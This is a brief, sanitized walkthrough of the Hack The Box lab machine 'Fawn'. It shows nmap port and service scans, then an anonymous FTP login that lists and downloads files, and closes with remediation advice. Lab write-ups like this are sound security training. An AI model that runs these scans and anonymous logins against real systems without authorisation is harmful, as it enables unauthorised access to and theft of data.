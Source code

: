 # HTB Starting Point — Fawn (FTP) | Professional Walkthrough

**Difficulty:** Very Easy  •  **Category:** Service Enumeration / Misconfiguration  •  **Focus:** FTP (TCP/21, Anonymous)

> Sanitized: no flags or live target details.

## Executive Summary
**FTP (TCP/21)** allows **anonymous** login, enabling unauthenticated listing/download of files. Demonstrates Security Misconfiguration and, if cleartext only, CWE-319.

## Phases (condensed)
**Recon (ports):**
```bash
sudo nmap -Pn -sS --min-rate 3000 -p- <TARGET_IP> -oA nmap/full
```
**Service/Version & scripts:**
```bash
sudo nmap -Pn -sS -sV -sC -p21 <TARGET_IP> -oA nmap/sv
# Expect ftp-anon: Anonymous FTP login allowed
```
**FTP interaction:**
```bash
ftp <TARGET_IP>
# user: anonymous ; pass: <blank>
ftp> ls
ftp> get <file>   # saved to current local dir
```

## Remediation (summary)
Disable anonymous or isolate to non-sensitive read-only area; require auth; prefer SFTP/FTPS; review permissions; monitor.

See `FINDINGS.md` for risk & re-test.
